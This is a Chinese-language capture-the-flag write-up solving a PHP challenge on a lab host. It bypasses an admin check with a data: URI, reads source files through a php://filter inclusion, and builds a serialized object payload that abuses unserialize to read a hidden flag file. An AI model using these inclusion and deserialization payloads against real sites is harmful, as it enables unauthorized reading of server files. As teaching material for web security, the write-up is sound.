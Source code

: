 # 04.you are not admin

1. 浏览器查看页面源代码：

   ```php
   you are not admin !
   <!--
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        include($file); //class.php
    }else{
        echo "you are not admin ! ";
    }
   -->
   ```

2. 源代码提示，只要 `$user` 参数合理设置，可触发 `include($file); //class.php` 。构造 payload ：`user=data:text/plain,the user is admin`，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin`，可观察到页面输出已变为：_hello admin!_ ，说明可成功触发 `include($file);` 。

3. 根据源代码的提示，似乎 `$file` 参数应设置为 `class.php` 。尝试构造 payload ：`file=class.php` ，执行后页面输出不变。尝试读取 `class.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=class.php`，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=class.php` ，执行结果中 `class.php` 文件内容经 base64解码后为：

   ```php
   <?php
    class Read{//f1a9.php
        public $file;
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
   ?>
   ```

4. 根据上述源代码提示，可能存在文件 `f1a9.php` ，尝试构造 payload ：`file=f1a9.php` ，执行后页面没输出有价值信息。尝试读取 `f1a9.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=f1a9.php` ，执行后页面也没输出有价值信息。

5. 考虑先读取 `index.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=index.php` ，即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=index.php` ，执行结果中 `index.php` 文件内容经base64解码后为：

   ```php
   <?php
    error_reporting(0);
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        if(preg_match("/f1a9/",$file)){
            exit();
        }else{
            include($file); //class.php
            $pass = unserialize($pass);
            echo $pass;
        }
    }else{
        echo "you are not admin ! ";
    }
   ?>
   ```

6. 从上述源代码可见，只要检测到 `$file` 参数包含字符串“f1a9”，程序就直接退出了。但是，如果 `$file` 参数设置为 `class.php` ，则 `class.php` 中的代码会被执行，其中的 `__toString()` 方法会通过 `echo file_get_contents($this->file);` 进行显示输出，同时 `index.php` 包含代码对参数 `$pass` 进行反序列化并显示输出，可见，只要对参数 `$pass` 的内容进行合理构造，利用其被显示输出时触发 `class.php` 中的 `__toString()` 被执行，即可显示输出我们需要的内容。

7. 根据 `class.php` 中的源代码，构造 `class Read` 的一个实例 `$r`，令 `$r.file = "f1a9.php"` , 把 `$r` 序列化，即可作为 `$pass` 参数的值以构造 payload 。为此，在php运行环境中执行以下代码：

   ```php
   class Read{//f1a9.php
        public $file = "f1a9.php";
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
    $r = new Read();
    echo serialize($r);
   ```

    得到 `$r` 序列化后的值：`O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}` ，作为 payload 中 `$pass` 参数的值。

8. 最终构造的 payload 为：

   ```ini
   user=data:text/plain,the user is admin
   file=class.php
   pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
   ```

    即访问 URL ：`http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=class.php&pass=O:4:%22Read%22:1:{s:4:%22file%22;s:8:%22f1a9.php%22;}` ，执行后查看页面源代码即得答案。
